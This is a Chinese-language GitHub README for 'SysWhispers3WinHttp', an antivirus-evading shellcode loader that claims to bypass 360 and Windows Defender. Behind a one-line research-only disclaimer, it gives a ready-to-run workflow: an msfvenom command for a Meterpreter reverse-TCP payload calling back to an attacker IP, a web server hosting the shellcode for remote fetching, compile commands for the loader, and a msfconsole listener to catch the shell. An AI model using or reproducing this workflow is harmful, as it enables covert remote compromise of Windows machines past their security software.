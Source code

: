 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址并使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -fpermissive -w -s -lwinhttp
```
注：Windows下也可编译，GCC下载地址为 https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1

## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图（2023/04/23更新）
![360](https://user-images.githubusercontent.com/128464183/233817661-76d09fef-7817-4e5a-a236-871c4a300471.PNG)

Defender截图
![WDdemo](https://user-images.githubusercontent.com/128464183/227820977-8ae3dd14-76f4-4076-85a4-91ff2702ec61.PNG)

微步云沙箱截图
![threatbook](https://user-images.githubusercontent.com/128464183/233817665-3ff36fed-ec4e-442f-b837-18247edff7ee.PNG)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
